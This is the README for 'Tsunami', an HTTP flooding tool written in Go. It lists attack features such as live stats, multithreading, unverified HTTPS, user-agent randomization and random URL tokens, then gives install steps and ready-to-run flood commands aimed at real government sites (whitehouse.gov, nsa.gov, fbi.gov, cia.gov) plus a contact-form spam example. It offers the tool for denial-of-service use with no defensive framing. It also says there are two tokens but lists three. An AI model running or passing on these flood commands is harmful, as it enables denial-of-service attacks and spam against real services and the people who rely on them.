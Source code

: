 # Tsunami
Tsunami is an advanced HTTP flooder written in Golang. It's currently implemented features include:

- Live attack stats
- Customizable mutlithreading
- HTTPS support __(Note: Certificates aren't verified for performance)__
- Realistic User Agent randomization
- Dynamic payloads
- Custom headers

## Table of Contents
1. [Basic Usage](#basic-usage)
2. [Help](#help)
3. [Quick Install](#quick-install)
4. [Examples](#examples)
   - [Low Volume POST Flood Lasting Forever](#low-volume-post-flood-lasting-forever)
   - [High Volume HEAD Flood Lasting For 10 Minutes](#high-volume-head-flood-lasting-for-10-minutes)
   - [Contact Us Form Spam](#contact-us-form-spam)
5. [Dynamic Tokens](#dynamic-tokens)
6. [Todo](#todo)

__This project is a WIP__

## Basic Usage
```bash
./tsunami http://whitehouse.gov -w 100
```

## Help
```bash
./tsunami --help
```

## Quick Install
```bash
git clone https://github.com/cameronpoe/tsunami
cd tsunami
export GOPATH=`pwd`
go get ./...
go build
```

## Dynamic Tokens
Dynamic tokens allows you to implement elements of randomness in your requests.
Tokens may be placed in your URL, body, and header values.

There are currently 2 tokens:
- {D} - A random digit
- {l} - A random lowercase letter
- {L} - A random uppercase letter

On every request, every token will be replaced.

Example command:
```bash
./tsunami -w 1 http://nsa.gov/{L}{L}{l}{D}
```
The requests will use URLs similar to these:

```
http://nsa.gov/AYz3
http://nsa.gov/BCv6
http://nsa.gov/NFz7
http://nsa.gov/IPa1
```

## Examples
### Low Volume POST Flood Lasting Forever
```bash
./tsunami -w 2 "https://fbi.gov/login" POST "username=Ammar&password=g1thuB123"
```
### High Volume HEAD Flood Lasting For 10 Minutes
```bash
./tsunami -w 100 -s 600 "https://cia.gov/" HEAD
```
### Contact Us Form Spam
```bash
./tsunami -w 1 "https://ammar.io/contact-us" POST "email={l}{l}{l}{l}{l}{l}{l}@gmail.com&message=spamspamspamspam"
```
## Todo
 - ???
